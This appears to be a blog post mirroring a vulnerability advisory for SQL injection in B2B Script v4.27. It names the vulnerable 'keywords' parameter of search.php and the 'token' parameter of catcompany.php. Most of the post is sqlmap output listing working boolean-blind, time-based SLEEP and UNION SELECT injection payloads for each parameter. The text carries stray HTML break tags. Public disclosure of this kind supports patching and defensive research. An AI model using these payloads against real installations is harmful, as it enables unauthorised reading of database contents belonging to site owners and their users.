 ```yaml
---
layout: post
title: B2B Script v4.27 - SQL Injection - 18.01.2017
---
```


 An attacker can exploit this vulnerability to read from the database. The parameters 'keywords' and 'token' are vulnerable.

<br># Vulnerability: B2B Script v4.27 - SQL Injection
<br># Date: 18.01.2017
<br># Software link: http://itechscripts.com/b2b-script/
<BR># Demo: http://b2b.itechscripts.com
<BR># Price: 199$
<BR># Category: webapps
<BR># Exploit Author: Dawid Morawski
<BR># Website: http://www.morawskiweb.pl
<BR># Contact: dawidmorawski1990@gmail.com
<BR>#######################################
<BR>
<BR>1. Description
<BR>An attacker can exploit this vulnerability to read from the database.
<BR>
<BR>2. SQL Injection / Proof of Concept:
<BR>
<BR>http://localhost/[PATH]/search.php?keywords=[SQL]
<BR>SQLmap outout:
<BR>
<BR>Parameter: keywords (GET)
 <BR>   Type: boolean-based blind
    <BR>Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
   <BR> Payload: keywords=-7908') OR 3641=3641#
<BR>
    <BR>Type: UNION query
    <BR>Title: MySQL UNION query (NULL) - 2 columns
    <BR>Payload: keywords=Products') UNION ALL SELECT <BR>NULL,CONCAT(0x716b7a7871,0x68634473486965586e6b57754358736b487a43564c6963646e556549454e476177776a5a6a7a4c4c,0x71767a7a71)#
<BR>---
<BR>[INFO] testing MySQL
 <BR>[INFO] confirming MySQL
 <BR>[INFO] the back-end DBMS is MySQL
<BR>
<br>#########################################
<BR>
<BR>
<BR>http://localhost/[PATH]/catcompany.php?token=[SQL]
<br>SQLmap outout:
<br>
<br>Parameter: token (GET)
    <br>Type: boolean-based blind
    <br>Title: AND boolean-based blind - WHERE or HAVING clause
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND 9125=9125 AND 'HhOm'='HhOm
<br>
  <br>  Type: AND/OR time-based blind
  <br>  Title: MySQL >= 5.0.12 AND time-based blind
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND SLEEP(5) AND 'dWKJ'='dWKJ
<br>
  <br>  Type: UNION query
  <br>  Title: Generic UNION query (NULL) - 6 columns
  <br>  Payload: token=-7417' UNION ALL SELECT <br>NULL,CONCAT(0x7171707071,0x6a6c6d484f58726e48446167417a66756464445941464844416856527a634a704f4b79647a494654,0x716b786271),NUL<br>L,NULL,NULL,NULL-- aNXq


